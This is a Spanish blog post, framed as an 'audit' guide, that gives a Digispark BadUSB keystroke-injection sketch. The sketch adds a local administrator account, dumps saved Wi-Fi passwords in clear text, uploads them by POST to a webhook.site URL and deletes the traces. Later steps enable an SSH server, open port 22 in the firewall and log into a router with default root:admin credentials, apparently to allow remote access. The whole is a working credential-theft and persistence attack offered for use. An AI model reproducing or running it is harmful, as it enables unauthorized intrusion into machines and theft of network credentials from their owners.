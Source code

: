 ```yaml
---
layout: post
title: Todo lo que necesitamos para la auditoria
subtitle: Este articulo se eliminara el miercoles
cover-img: /assets/img/auditoria/icono.png
thumbnail-img: /assets/img/auditoria/icono.png
tags: [auditoria]
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."
---
```


Hecho por boyras200

<br>
<br>

## Programa del digispark

```
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("simbolo");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(0x4F);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(0x51);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
  DigiKeyboard.println("net user Usuario-Auditorio D2z14IdWykPO /add");
  DigiKeyboard.println("net localgroup Administradores Usuario-Auditorio /add");
  DigiKeyboard.delay(200);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(250);
  DigiKeyboard.println("del Wi-* /s /f /q 6 del PASS"); //cleaning up all the mess
  DigiKeyboard.println("exit");

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
}
```

Cuando en el script nos aparezca esto, le daremos a SI:

![](/assets/img/auditoria/cmd.png.jpg)


Despues clickaremos en el cmd:

![](/assets/img/auditoria/cmd2.jpg)


##Sacar IP

Vamos a sacar la IP privada del sistema. Para esto simplemete hacemos los siguiente:

`Windows + R` 

`cmd`

`ipconfig`

Nos deberia aparecer algo como esto:

/assets/img/auditoria/ipconfig.png


/assets/img/auditoria/ipconfig2.png


Ya tenemos la IP privada, la necesitaremos mas tarde.


## Habilitar ssh

Empezamos abriendo powershell como administrador:

/assets/img/auditoria/powershell.png


Ahora ejecutaremos los siguientes comandos:


`Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'`

`Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0`

`Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`

`Start-Service sshd`

`Set-Service -Name sshd -StartupType 'Automatic'`

`if (!(Get-NetFirewallRule -Name "OpenSSH-Server-In-TCP" -ErrorAction SilentlyContinue | Select-Object Name, Enabled)) {
    Write-Output "Firewall Rule 'OpenSSH-Server-In-TCP' does not exist, creating it..."
    New-NetFirewallRule -Name 'OpenSSH-Server-In-TCP' -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
} else {
    Write-Output "Firewall rule 'OpenSSH-Server-In-TCP' has been created and exists."
}`


Ya hemos habilitado ssh.


##Router

Primero entramos en `https://www.cual-es-mi-ip.net/`

/assets/img/auditoria/ip.png

Ahora vamos a `http://192.168.100.1/`

Ponemos las credenciales root:admin

Deberiamos haber encontrado algo como esto:

![](/assets/img/auditoria/router.png)

Ahora ponemos esto:

![](/assets/img/auditoria/router2.png)



# Ya debería estar funcionando todo.
